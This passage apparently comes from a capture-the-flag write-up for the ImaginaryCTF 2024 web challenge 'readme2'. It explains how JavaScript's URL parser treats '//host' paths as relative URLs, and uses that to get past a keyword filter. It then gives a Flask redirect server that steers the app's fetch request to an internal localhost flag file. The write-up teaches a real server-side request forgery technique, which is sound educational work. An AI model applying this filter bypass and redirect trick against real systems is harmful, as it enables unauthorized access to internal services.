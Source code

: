 Hmm... Looks like the `URL` has a parsing error.

Now, what if we **append something in the `//`**? Like the following request:

```http
GET //foobar HTTP/1.1
```

**Error message:**
```shell
app-1  | ConnectionRefused: Unable to connect. Is the computer able to access the url?
app-1  |  path: "http://foobar/"
app-1  | GET - http://localhost//foobar failed
```

Huh??? So, **somehow the `URL` parser treats `//<hostname_here>` as a URL**.

**If we read the [mdn web docs about API `URL`](https://developer.mozilla.org/en-US/docs/Web/API/URL/URL#examples), we can see this invalid URL example:**
```javascript
new URL("//foo.com", "https://example.com");
// => 'https://foo.com/' (see relative URLs)
```

As you can see, in `new URL(url, base)`, if we input `//foo.com` in the `url`, it'll treat the input as a **relative URL**.

With that said, we can **abuse this "feature" to bypass the word `flag` filter**!

## Exploitation

With the above information, we can **host a web application that redirects a request to `http://localhost:3000/flag.txt`**!

> Note: The `localhost:3000` is because we want to redirect the `fetch` request to the internal web server.

To do so, we can write a simple Python Flask web application:

```python
#!/usr/bin/env python3
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/redirect')
def redirectRequest():
    return redirect('http://localhost:3000/flag.txt')

if __name__ == '__main__':
    app.run('0.0.0.0', port=8000, debug=True)
```

```shell
┌[siunam♥Mercury]-(~/ctf/ImaginaryCTF-2024/Web/readme2)-[2024.07.23|13:55:40(HKT)]
└> python3 solve.py
 * Serving Flask app 'solve'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8000
 * Running on http://10.69.96.69:8000
[...]
```
